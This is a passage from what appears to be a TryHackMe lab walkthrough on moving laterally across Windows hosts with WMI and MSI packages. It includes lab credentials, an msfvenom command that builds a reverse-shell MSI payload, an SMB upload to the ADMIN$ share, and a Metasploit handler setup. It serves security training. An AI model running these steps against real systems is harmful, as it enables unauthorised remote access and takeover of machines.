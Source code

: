 We can achieve the same by us using wmic in legacy systems:

```
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

### <font color="#FFA500">Let's Get to Work!</font>

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you on Task 1 from http://distributor.za.tryhackme.com/creds. If you haven't done so yet, click on the link and get credentials. Once you have your credentials, connect to THMJMP2 via SSH:

```
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

For this exercise, we will assume we have already captured some credentials with administrative access:

**User**: ZA.TRYHACKME.COM\t1_corine.waters

**Password**: Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using WMI and MSI packages. Feel free to try the other methods presented during this task.

We will start by creating our MSI payload with msfvenom from our attacker machine:

**Note**: Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myinstaller.msi" to avoid overwriting someone else's payload.

AttackBox:
```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

We then copy the payload using SMB or any other method available:

Attackbox:
```
user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
```

Since we copied our payload to the ADMIN$ share, it will be available at C:\Windows\ on the server.

We start a handler to receive the reverse shell from Metasploit:

Attackbox:
```
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4445
```
